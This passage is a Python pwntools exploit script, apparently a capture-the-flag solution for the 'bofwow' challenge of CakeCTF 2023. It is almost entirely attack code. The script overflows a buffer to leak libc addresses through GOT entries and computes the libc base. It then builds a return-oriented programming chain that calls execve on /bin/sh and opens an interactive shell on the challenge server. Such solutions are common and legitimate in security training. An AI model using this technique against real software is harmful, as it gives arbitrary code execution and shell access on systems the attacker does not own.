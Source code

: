 ```py
    sla(b"name?", rop_stage + rop1)
    sla(b"you?", i2b(0))
    t.recvuntil(b"Age: ")
    libc_l = int(t.recvline()) & 0xFFFFFFFF

    rop_stage = p64(elf.sym["main"]) + b"B" * 0x108 + got_setbuf_P48h
    rop1 = ret + print_info.ljust(0x10, b"\x00") + got_op_ostream_str * 3
    sla(b"name?", rop_stage + rop1)
    sla(b"you?", i2b(0))
    t.recvuntil(b"Age: ")
    libc_h = (int(t.recvline()) & 0xFFFFFFFF) << 32
    libc_base = libc_h + libc_l - 0x88060
    info(f"{libc_base=:x}")
    assert not libc_base & 0xFFF

    input("ready to exploit?")
    pop_6 = libc_base + 0x2A73D
    pop_rdi = libc_base + 0x2A3E5
    pop_rsi = libc_base + 0x2BE51
    pop_rax = libc_base + 0x119C85
    pop_rdx_r12 = libc_base + 0x11F497
    syscall = libc_base + 0x29DB4
    bin_sh = libc_base + 0x1D8698

    rop_stage = (
        p64(pop_6)
        + p64(pop_rax)
        + p64(59)
        + p64(pop_rdi)
        + p64(bin_sh)
        + p64(pop_rsi)
        + p64(0)
        + p64(pop_rdx_r12)
        + p64(0)
        + p64(0)
        + p64(syscall)
    )

    rop_stage = rop_stage.ljust(0x110, b"C") + dummy_rbp
    rop1 = b"".ljust(0x18, b"\x00") + got_stack_chk * 3
    sla(b"name?", rop_stage + rop1)
    sla(b"you?", i2b(0))

    t.interactive()


local = 0
debug = 0
radare = 0

elf_name = "./bofwow"
libc_name = "./libc.so.6"
remote_addr, remote_port = "bofwow.2023.cakectf.com 9003".split()
# remote_addr, remote_port = "172.17.0.3 5000".split()

elf: ELF = ELF(elf_name)
libc: ELF = ELF(libc_name)
script = """
b *0x40139e
"""
t = create_io()
solve()
```